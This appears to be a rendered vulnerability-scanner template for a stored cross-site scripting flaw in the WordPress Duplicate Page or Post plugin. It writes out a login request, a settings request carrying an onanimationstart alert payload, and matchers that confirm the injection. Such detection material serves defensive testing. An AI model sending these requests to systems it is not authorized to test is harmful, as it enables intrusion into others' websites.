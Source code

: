 **Type - kval**
- kval
    1. version

---
# WordPress Duplicate Page or Post \<1.5.1 - Cross-Site Scripting
## Description
- WordPress Duplicate Page or Post plugin before 1.5.1 contains a stored cross-site scripting vulnerability. The plugin does not have any authorization and has a flawed cross-site request forgery check in the wpdevart_duplicate_post_parametrs_save_in_db AJAX action, allowing unauthenticated users to call it and change the plugin's settings, or perform such attack via cross-site request forgery.

- severity - low
- tags - wpscan,cve,cve2021,wordpress,xss,wp-plugin,authenticated
## Requests
### Step - 1
```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
POST /wp-admin/admin-ajax.php?action=wprss_fetch_items_row_action HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

action=wpdevart_duplicate_post_parametrs_save_in_db&title_prefix=%22+style%3Danimation-name%3Arotation+onanimationstart%3Dalert%28%2fXSS%2f%29+p

```
### Step - 3
```
GET /wp-admin/admin.php?page=wpda_duplicate_post_menu HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. style=animation-name:rotation onanimationstart=alert(/XSS/) p
    2. toplevel_page_wpda_duplicate_post_menu
- condition - and
